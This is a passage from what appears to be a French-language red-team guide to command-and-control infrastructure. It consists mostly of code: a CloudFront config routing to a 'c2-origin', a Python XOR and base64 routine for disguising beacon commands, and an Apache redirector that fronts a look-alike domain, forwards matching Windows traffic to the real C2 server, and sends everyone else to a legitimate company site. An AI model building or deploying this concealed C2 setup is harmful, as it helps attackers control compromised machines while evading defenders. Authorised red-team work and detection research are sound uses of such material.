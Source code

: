 ```bash
                }
            }
        ]
    },
    "DefaultCacheBehavior": {
        "TargetOriginId": "c2-origin",
        "ViewerProtocolPolicy": "redirect-to-https",
        "TrustedSigners": {
            "Enabled": false,
            "Quantity": 0
        }
    },
    "Enabled": true
}
EOF
```

### Traffic Encryption et Obfuscation
```python
# Chiffrement XOR simple pour C2
def xor_encrypt(data, key):
    return ''.join(chr(ord(c) ^ ord(key[i % len(key)])) for i, c in enumerate(data))

# Base64 + XOR pour payload
import base64
def encode_payload(command, key="secretkey"):
    encrypted = xor_encrypt(command, key)
    encoded = base64.b64encode(encrypted.encode()).decode()
    return encoded

# Usage dans beacon
command = "whoami"
payload = encode_payload(command)
print(f"Encrypted payload: {payload}")
```

## 🚧 Redirecteurs et Proxies

### Apache mod_rewrite
```apache
# Configuration Apache redirecteur
<VirtualHost *:443>
    ServerName legitimate-looking-domain.com
    
    # SSL Configuration
    SSLEngine on
    SSLCertificateFile /etc/ssl/certs/domain.crt
    SSLCertificateKeyFile /etc/ssl/private/domain.key
    
    # Filtering based on User-Agent
    RewriteEngine On
    RewriteCond %{HTTP_USER_AGENT} "^Mozilla.*Windows NT.*" [NC]
    RewriteRule ^/api/(.*)$ https://actual-c2-server.com:443/api/$1 [P,L]
    
    # Default redirect to innocent site
    RewriteRule ^(.*)$ https://legitimate-company.com$1 [R=302,L]
    
    # Logging
    LogLevel warn
    ErrorLog /var/log/apache2/c2-redirector_error.log
    CustomLog /var/log/apache2/c2-redirector_access.log combined
</VirtualHost>
```